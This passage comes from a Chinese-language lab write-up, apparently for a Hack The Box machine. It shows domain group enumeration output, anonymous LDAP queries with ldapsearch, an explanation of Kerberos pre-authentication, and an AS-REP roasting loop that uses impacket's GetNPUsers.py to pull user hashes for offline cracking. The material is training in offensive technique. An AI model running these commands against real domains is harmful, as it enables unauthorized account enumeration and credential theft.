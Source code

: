 ```shell
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

# 389 LDAP

Ldap 匿名访问

值得试一下有没有开启匿名访问

根据 nmap 探测出的结果可以知道域名为`htb.local`

尝试使用 ldapsearch 工具对 `namingcontexts` 字段进行发掘

```shell
ldapsearch -H ldap://10.10.10.161:389 -x -b "CN=users,DC=htb,DC=local"

ldapsearch -H ldap://10.10.10.161:389 -x -b "DC=htb,DC=local"
```

这一步主要也是用来获取域中的用户名信息

# GetNPUsers.py 空身份验证直接获取哈希

拿到账号名之后，可以检查一下是否启用了预认证，这里解释一下什么是预认证

> 在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。  
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。  
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。

使用 `GetNPUsers.py` 尝试获取每一个用户的 hash

`for user in $(cat users.txt); do python3 /tools/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}; done`

